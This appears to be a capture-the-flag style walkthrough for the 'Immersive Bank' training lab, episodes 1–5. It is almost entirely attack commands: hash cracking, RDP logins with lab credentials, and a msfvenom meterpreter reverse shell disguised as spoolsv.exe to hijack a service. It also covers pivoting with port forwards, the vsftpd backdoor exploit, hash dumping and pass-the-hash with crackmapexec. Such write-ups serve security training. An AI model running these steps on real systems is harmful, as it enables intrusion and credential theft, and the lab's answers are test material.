

---
---

# IML - Immersive Bank

**<u>Immersive Bank: Ep.1 – Open Source and Credentials</u>**
```bash
john hash /usr/share/wordlists/rockyou.txt --format=raw-sha256S

```


**<u>Immersive Bank: Ep. 2 – Gaining Access</u>**
```bash
xfreerdp /v:10.102.189.120:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```


**<u>Immersive Bank: Ep.3 – Privilege Escalation</u>**
```bash
xfreerdp /v:10.102.118.107:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```
Troubleshooting file in C:\IMLBankIT


```bash
sc query spooler

```


- Create a reverse shell named spoolsv.exe
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.170.0 LPORT=4445 -f exe -o spoolsv.exe

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.170.0; set lport 4445; exploit"

```
- Transfer the malicious exe and replace the original

- Start service:
```bash
sc start spooler

```


- Migrate to a more stable process:
```bash
ps

migrate -N LogonUI.exe

```


cat C:\Users\Administrator\Desktop\token.txt


**<u>Immersive Bank: Ep.4 – Pivoting</u>**

```bash
xfreerdp /v:10.102.146.57:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```


- Do above exploit first to get SYSTEM and migrate to a more stable process

- Ping the FTP server to see if we can talk to it


- Background current meterpreter session (bg):


- Now we need to add a route to the FTP server:
```bash
route add 10.102.36.63 255.255.255.255 1

```


- Back to the session:
```bash
sessions 1

```
- Forward port 3000 on our localhost to port 21 on the FTP server:
```bash
portfwd add -l 3000 -p 21 -r 10.102.36.63

```


- Open another terminal

Banner grab with nc or ftp:

```bash
nc 127.0.0.1 3000

```




- Background current meterpreter session:
```bash
bg
```

- Search for vsftpd in msf and use the following payload:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 10.102.36.63  #Because route was added
set rport 21

```


**\*\*Tip** - before going on to Ep.5 - Do a hashdump in meterpreter and save the manager hash

**<u>Immersive Bank: Ep.5 – Account Abuse</u>**
- If you didn't save the hash on Ep.4 - you need to do the whole priv esc part again and in meterpreter, do a hashdump:


manager:1002:aad3b435b51404eeaad3b435b51404ee:**66ece2b7200f29cbd0b799350c29244e**:::

- We can check the credentials with CME:
```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e

```


- We can also execute commands through CME:
```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e -x 'type C:\Users\manager\Desktop\token.txt'

```


